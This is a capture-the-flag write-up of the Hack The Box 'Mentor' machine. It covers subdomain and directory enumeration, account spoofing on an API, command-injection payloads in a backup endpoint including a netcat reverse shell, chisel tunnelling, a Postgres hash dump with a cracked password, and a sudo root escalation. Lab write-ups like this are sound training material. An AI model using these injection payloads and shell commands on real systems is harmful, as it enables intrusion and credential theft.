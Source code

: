 ```yaml
---
title: Mentor 
date: 2022-12-11 12:00:00
categories: [HTB,CTF]
tags: [htb]
---
```


# Enumeration

## Rustscan

```bash
mkdir rust; sudo rustscan -t 1500 -b 1500 --ulimit 65000 -a 10.129.84.190 -- -sV -sC -oA ./rust/{{ip}}
```

```bash
Open 10.129.84.190:22
Open 10.129.84.190:80
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://mentorquotes.htb/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host: mentorquotes.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Subdomains

```bash
ffuf -w /usr/share/seclists/Discovery/DNS/shubs-subdomains.txt -u http://mentorquotes.htb -H "Host: FUZZ.mentorquotes.htb" -o subs.json -mc all -fw 18
```

```bash
api                     [Status: 404, Size: 22, Words: 2, Lines: 1, Duration: 98ms]
```

## Dirsearch

```bash
dirsearch -u http://api.mentorquotes.htb/
```

```bash
[00:53:07] 307 -    0B  - /admin  ->  http://api.mentorquotes.htb/admin/    
[00:53:07] 422 -  186B  - /admin/?/login                                    
[00:53:07] 422 -  186B  - /admin/                                           
[00:53:07] 307 -    0B  - /admin/backup/  ->  http://api.mentorquotes.htb/admin/backup
[00:53:17] 405 -   31B  - /auth/login                                       
[00:53:24] 200 -  969B  - /docs                                             
[00:53:24] 307 -    0B  - /docs/  ->  http://api.mentorquotes.htb/docs      
[00:53:49] 403 -  285B  - /server-status                                    
[00:53:49] 403 -  285B  - /server-status/                                   
[00:53:56] 307 -    0B  - /users  ->  http://api.mentorquotes.htb/users/    
[00:53:56] 307 -    0B  - /users/admin  ->  http://api.mentorquotes.htb/users/admin/
[00:53:56] 422 -  186B  - /users/
[00:53:56] 307 -    0B  - /users/login  ->  http://api.mentorquotes.htb/users/login/
```

# Foothold

## Create a new user

If you check [http://api.mentorquotes.htb/docs/ ](http://api.mentorquotes.htb/docs/ ) you'll see that the authors user name seems to be **james** and his mailaddress is james@mentorquotes.htb  
We will use **james** as username with a different address to get access to any admin endpoint.

```bash
curl -X 'POST' \
  'http://api.mentorquotes.htb/auth/signup' \
  -H 'accept: application/json' \
  -H 'Content-Type: application/json' \
  -d '{
  "email": "james1@mentorquotes.htb",
  "username": "james",
  "password": "password"
}'
```

## Sign In

```bash
curl -X 'POST' \
  'http://api.mentorquotes.htb/auth/login' \
  -H 'accept: application/json' \
  -H 'Content-Type: application/json' \
  -d '{
  "email": "james1@mentorquotes.htb",
  "username": "james",
  "password": "password"
}' > token
```

Our Access Token

```bash
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImphbWVzIiwiZW1haWwiOiJqYW1lczFAbWVudG9ycXVvdGVzLmh0YiJ9.tqY0iQHU85zAkvffr--v1MMbO37NSNJs0Fo9ZMqRz48
```

## Admin Endpoint

We discovered [http://api.mentorquotes.htb/admin/backup](http://api.mentorquotes.htb/admin/backup) using dirsearch before.  

### Missing body
```bash
curl -X 'POST' 'http://api.mentorquotes.htb/admin/backup' -H 'Content-Type: application/json' -H 'Authorization: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImphbWVzIiwiZW1haWwiOiJqYW1lczFAbWVudG9ycXVvdGVzLmh0YiJ9.tqY0iQHU85zAkvffr--v1MMbO37NSNJs0Fo9ZMqRz48'                     
```

```json
{"detail":[{"loc":["body"],"msg":"field required","type":"value_error.missing"}]}
```

### Missing path
```bash
curl -X 'POST' 'http://api.mentorquotes.htb/admin/backup' -H 'Content-Type: application/json' -H 'Authorization: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImphbWVzIiwiZW1haWwiOiJqYW1lczFAbWVudG9ycXVvdGVzLmh0YiJ9.tqY0iQHU85zAkvffr--v1MMbO37NSNJs0Fo9ZMqRz48' -d '{ "body": "a" }'
```

```json
{"detail":[{"loc":["body","path"],"msg":"field required","type":"value_error.missing"}]}                                                                                                                                                                                                                                            
```

### Finally

```bash
curl -X 'POST' 'http://api.mentorquotes.htb/admin/backup' -H 'Content-Type: application/json' -H 'Authorization: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImphbWVzIiwiZW1haWwiOiJqYW1lczFAbWVudG9ycXVvdGVzLmh0YiJ9.tqY0iQHU85zAkvffr--v1MMbO37NSNJs0Fo9ZMqRz48' -d '{ "body": "a", "path": "b" }'
```

```json
{"INFO":"Done!"} 
```

### Command Injection

Poking around didn't show any results that are interesting. Assuming that this endpoints is being used to get or create backups we will check for Command Injections.

```bash
# Setup python server to check for callbacks
python -m http.server 80
```

```bash
# Try to trick the server into using wget to contact us
curl -X 'POST' 'http://api.mentorquotes.htb/admin/backup' -H 'Content-Type: application/json' -H 'Authorization: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImphbWVzIiwiZW1haWwiOiJqYW1lczFAbWVudG9ycXVvdGVzLmh0YiJ9.tqY0iQHU85zAkvffr--v1MMbO37NSNJs0Fo9ZMqRz48' -d '{ "body": "a", "path": ";wget 10.10.14.75" }'
```

We got a callback to our http.server 

## Shell

```bash
rlwrap -cAr nc -lvnp 4000
```

```bash
curl -X 'POST' 'http://api.mentorquotes.htb/admin/backup' -H 'Content-Type: application/json' -H 'Authorization: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImphbWVzIiwiZW1haWwiOiJqYW1lczFAbWVudG9ycXVvdGVzLmh0YiJ9.tqY0iQHU85zAkvffr--v1MMbO37NSNJs0Fo9ZMqRz48' -d '{ "body": "a", "path": "`nc 10.10.14.75 4000 -e sh`" }'
```

## Local Enum

```bash
ls -al
total 9044
drwxr-xr-x    1 root     root          4096 Dec 12 00:58 .
drwxr-xr-x    1 root     root          4096 Nov 10 16:00 ..
-rw-r--r--    1 root     root          1024 Jun 12  2022 .Dockerfile.swp
-rw-r--r--    1 root     root           522 Nov  3 12:58 Dockerfile
drwxr-xr-x    1 root     root          4096 Dec 12 00:54 app
```

Within the app directory we'll find a file called db.py which will indicate that a postgres db is running on IP 172.22.0.1.

```python
# Database url if none is passed the default one is used
DATABASE_URL = os.getenv("DATABASE_URL", "postgresql://postgres:postgres@172.22.0.1/mentorquotes_db")
```

# Priv Esc

## Postgres
We will setup chisel for portfowarding/tunneling and check the database  

```bash
# Client
./chisel_lnx server -p 8001 --reverse
# Target
./chisel_lnx client 10.10.14.75:8001 R:1080:socks
```

We will find two interesting password hashes within the mentorquotes db. One can be cracked!

```bash
proxychains -q psql -h 172.22.0.1 -d mentorquotes_db -U postgres
psql (14.4 (Debian 14.4-1+b1), Server 13.7 (Debian 13.7-1.pgdg110+1))
Geben Sie »help« für Hilfe ein.

mentorquotes_db=# \d
             Liste der Relationen
 Schema |     Name      |   Typ   | Eigentümer 
--------+---------------+---------+------------
 public | cmd_exec      | Tabelle | postgres
 public | quotes        | Tabelle | postgres
 public | quotes_id_seq | Sequenz | postgres
 public | users         | Tabelle | postgres
 public | users_id_seq  | Sequenz | postgres
(5 Zeilen)

mentorquotes_db=# select * from users;
 id |          email          |  username   |             password             
----+-------------------------+-------------+----------------------------------
  1 | james@mentorquotes.htb  | james       | 7ccdcd8c05b59add9c198d492b36a503
  2 | svc@mentorquotes.htb    | service_acc | 53f22d0dfa10dce7e29cd31f4f953fd8
(4 Zeilen)
```

>53f22d0dfa10dce7e29cd31f4f953fd8 = 123meunomeeivani

## SSH Access

We can use **svc:123meunomeeivani** to access the main server.

## User: James

Since there was no obvious way for privilege escalation to root we started checking for basic things like passwords that has been set somewhere and could be accessed by anyone

```bash
grep -Hrni "pass" /etc
```

```bash
/etc/snmp/snmpd.conf:78:# createUser username (MD5|SHA|SHA-512|SHA-384|SHA-256|SHA-224) authpassphrase [DES|AES] [privpassphrase]
/etc/snmp/snmpd.conf:92:createUser bootstrap MD5 SuperSecurePassword123__ DES
```

Using the password **SuperSecurePassword123__** we are able to become **james**

# Root

```bash
james@mentor:~$ sudo -l
[sudo] password for james: 
Matching Defaults entries for james on mentor:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User james may run the following commands on mentor:
    (ALL) /bin/sh
```

```bash
sudo /bin/sh
```